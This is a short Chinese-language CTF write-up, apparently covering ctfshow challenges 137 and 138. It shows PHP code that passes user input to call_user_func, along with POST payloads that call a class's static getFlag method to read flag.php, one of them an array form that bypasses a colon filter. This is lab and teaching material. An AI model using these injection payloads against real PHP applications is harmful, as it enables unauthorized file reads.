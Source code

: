 脚本盲打，直接看hint就行

## 137-调用类中函数

```php
class ctfshow
{
    function __wakeup(){
        die("private class");
    }
    static function getFlag(){
        echo file_get_contents("flag.php");
    }
}

call_user_func($_POST['ctfshow']);
```

调用类中函数：`类名::函数名`

```
ctfshow=ctfshow::getFlag
```

## 138-call_user_func

```php
class ctfshow
{
    function __wakeup(){
        die("private class");
    }
    static function getFlag(){
        echo file_get_contents("flag.php");
    }
}

if(strripos($_POST['ctfshow'], ":")>-1){
    die("private function");
}
```

过滤了137的方法

[PHP: call_user_func - Manual](https://www.php.net/manual/zh/function.call-user-func.php)

![](https://s2.loli.net/2022/01/03/hpDE8394MZsbYeH.png)

call_user_func允许传入数组的，如上调用类中的方法

```
ctfshow[0]=ctfshow&ctfshow[1]=getFlag
```


